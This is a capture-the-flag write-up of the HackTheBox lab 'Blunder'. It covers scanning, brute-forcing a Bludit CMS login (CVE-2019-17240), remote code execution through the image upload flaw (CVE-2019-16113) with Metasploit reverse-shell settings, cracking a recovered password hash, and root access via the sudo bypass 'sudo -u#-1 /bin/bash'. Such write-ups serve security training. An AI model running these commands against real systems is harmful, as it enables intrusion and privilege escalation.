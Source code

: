 ```yaml
---
title: Hackthebox - Blunder
date: 2020-09-09 00:00:00 +0530
categories: [hackthebox, linux]
tags: [bludit 3.9.2, cve-2019-17240, cve-2019-16113, sudo, cve-2019-14287]     # TAG names should always be lowercase
image: /assets/img/posts/blunder/blunder_banner.png
---
```



![](/assets/img/posts/blunder/blunder_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.191 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.191`
```bash
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

## Gobuster

`gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php -t 50`
```
/admin (Status: 301)
/todo.txt (Status: 200)
```

### /admin

- in the admin page I found [bludit CMS](https://github.com/bludit/bludit) admin login panel, 
- Looking at the source code, the CMS version is identified as `3.9.2`

### /todo.txt

`-Inform fergus that the new blog needs images - PENDING`

potential username **fergus**

## Google

**search :** `bludit 3.9.2 vulnerability`

**2 CVEs Found**

**CVE-2019-17240**:*bl-kernel/security.class.php in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.* 

**CVE-2019-16113 (1 Metasploit modules)**:*Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.* 

# User Exploiting

## CVE-2019-17240

**Discovered By**: Rastating
**References**: [rastating.github.io](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) Blog post.

- requirements

  - **username:** fergus
  - **wordlist:** *create a wordlist from the website text*
  
        cewl http://10.10.10.191 -w wordlist


### POC Script

[bludit_3.9.2-Bruteforce.py](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/blunder/exploit/bludit_3.9.2-Bruteforce.py)

* Wordlist generated from webpage usubg cewl tool

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=940s)*

#### creds

      fergus:RolandDeschain

## CVE-2019-16113

**Discoverer**: Christasa
**References**: [issue 1081](https://github.com/bludit/bludit/issues/1081)

- requirements

  - **username:** fergus
  - **password:** RolandDeschain


### Exploiting

#### using ExploitDB Script

  - Title: Bludit 3.9.2 - Directory Traversal
  - Author: James Green
  - EDB-ID: [48701](https://www.exploit-db.com/exploits/48701)

[Bludit_3.9.2-DirectoryTraversal.py](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/blunder/exploit/Bludit_3.9.2-DirectoryTraversal.py)

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=2460s)*

#### MSF Module [Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec)

> exploit/linux/http/bludit_upload_images_exec

	BLUDITPASS => RolandDeschain
	BLUDITUSER => fergus
	RHOSTS => 10.10.10.191
	LHOST => tun0

### low lavel user shell or meterpreter shell
	$ whoami;id
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

### spawn dumb shell, [ropnop.com blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

	$ which python
		/usr/bin/python
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# In Kali
	$ stty raw -echo
	$ fg 	//Enter twice

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color
	$ stty rows <num> columns <cols>

**for meterpreter shell upgrade :** [hackingarticles.in blog](https://www.hackingarticles.in/command-shell-to-meterpreter/)

### Local Enumeration

- Home directory has 2 users

	  hugo	//has user flag
	  shaun

- in `/var/www/bludit-3.10.0a/bl-content/databases` directory

	  user.php	//contains Hugo's password hash

		"nickname": "Hugo",
		"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
		//hash type SHA1
		
- creds

	  hugo:Password120

# Root Prevesc

- **Enumeration**

	  $ su - hugo
	  su - hugo
	  Password: Password120

	  hugo@blunder:~$ sudo -l
	  sudo -l
	  Password: Password120

	  Matching Defaults entries for hugo on blunder:
	      env_reset, mail_badpass,
	      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
	  hugo@blunder:~$ sudo -V
	  sudo -V
	  Sudo version 1.8.25p1


### Google

**search :** `sudo ALL, !root privesc`

**1 CVE Found**

#### CVE-2019-14287

	# Exploit Title : sudo 1.8.27 - Security Bypass
	# Original Author: Joe Vennix
	# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
	# Version : Sudo <1.2.28
	# Credit : Joe Vennix from Apple Information Security found and analyzed the bug

EDB-ID: [47502](https://www.exploit-db.com/exploits/47502)

- misconfigured sudo

	  $ sudo -l 
	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
    
**EXPLOIT :** 

	$ sudo -u#-1 /bin/bash